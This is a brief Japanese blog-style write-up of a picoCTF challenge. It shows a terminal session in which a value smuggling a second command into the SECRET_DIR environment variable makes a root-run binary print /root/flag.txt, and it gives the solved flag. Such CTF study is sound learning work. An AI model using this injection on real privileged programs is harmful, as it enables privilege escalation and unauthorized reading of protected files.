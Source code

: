 Listing the content of /root as root:

flag.txt

ctf-player@pico-chall$ cat /root/flag.txt

cat: /root/flag.txt: Permission denied

ctf-player@pico-chall$ SECRET\_DIR="/root; cat /root/flag.txt" ./bin

Listing the content of /root; cat /root/flag.txt as root:

flag.txt

picoCTF{Power\_t0\_man!pul4t3\_3nv\_3f693329}ctf-player@pico-chall$



今回は環境変数を使ったコマンドインジェクションの問題でした。コマンドあまり詳しくなかったので、調べながらちょっとずつ解いていった感じですが、WriteUPで解説などを見た感じ、binというバイナリをrootで実行しようとするが、ユーザーはctf-playerでログインしてるため通常は /root/flag.txt を読めないが、このバイナリは 環境変数 SECRET\_DIR を使って ls コマンドを実行することで/rootの中身が表示されて、そこでコマンドインジェクションを行うことでテキストファイルの中身が見ることができるといった感じでした。急にものすごく難易度あがってませんか、、、でも結構な学びを得られた気がします、まずssh接続するのに手間取ってしまったので、まだまだなんだなと実感しました。





今日はここまでにしようと思います。picoCTFの他の問題にもチャレンジしてみましたが、私が目指していた技術的なスキルの習得とは程遠い問題もいくつかあって、謎解きゲームみたいな問題もあったりして、picoCTFの方向性と私の方向性が合わないと感じたのでpicoCTFの学習は一度ここまでにしようかと思います。

